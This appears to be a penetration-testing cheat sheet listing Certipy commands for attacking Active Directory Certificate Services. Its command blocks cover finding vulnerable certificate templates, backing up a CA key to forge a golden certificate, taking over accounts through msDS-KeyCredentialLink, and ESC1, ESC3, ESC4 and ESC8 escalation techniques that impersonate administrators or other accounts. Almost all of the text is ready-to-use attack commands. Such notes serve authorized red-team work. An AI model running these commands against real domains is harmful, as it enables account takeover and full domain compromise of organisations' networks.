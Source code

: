 ### Source
https://github.com/ly4k/Certipy  

### Check for vulnerable templates
```
certipy find -u <user>@<domain> -p <password> -dc-ip <dcIp> -ns <dnsIp> -dns-tcp -old-bloodhound
```

### Create golden certificate
```
certipy ca -backup -ca '<certificateAuthority>' -u <user>@<domain> -hashes <ntHash>
certipy forge -ca-pfx certificateAuthority.pfx -upn <user>@<domain> -subject 'CN=Administrator,CN=Users,DC=<domainComponent>,DC=<domainComponent>'
certipy auth -pfx <certificateAuthority>.pfx -dc-ip <dcIp>
```

### Take over account by writing to msDS-KeyCredentialLink
```
certipy shadow auto -u <user>@<domain> -p <password> -account <targetAccount>
```

### ESC1 supply an arbitrary Subject Alternative Name (SAN).
```
certipy req -u <user>@<domain> -p <password> -ca <certificateAuthority> -target <fqdnDcCa> -template <targetTemplate> -upn <targetAccount>@<domain>
certipy auth -pfx <targetAccount>.pfx -dc-ip <dcIp>
```

### ESC3 specify the Certificate Request Agent EKU
```
certipy req -u <user>@<domain> -p <password> -ca <certificateAuthority> -target <fqdnDcCa> -template <targetTemplate>
certipy req -u <user>@<domain> -p <password> -ca <certificateAuthority> -target <fqdnDcCa> -template User -on-behalf-of '<domain>\<targetAccount>' -pfx <targetAccount>.pfx
certipy auth -pfx <targetAccount>.pfx -dc-ip <dcIp>
```

### ESC4 write privileges over a certificate template configuration
```
certipy template -u <user>@<domain> -p <password> -template <targetTemplate> -save-old
certipy req -u <user>@<domain> -p <password> -ca <certificateAuthority> -target <fqdnDcCa> -template <targetTemplate> -upn <targetAccount>@<domain>
certipy template -u <user>@<domain> -p <password> -template <targetTemplate> -configuration <targetTemplate>.json
```

### ESC8 
```
certipy relay -ca <fqdnDcCa>
```

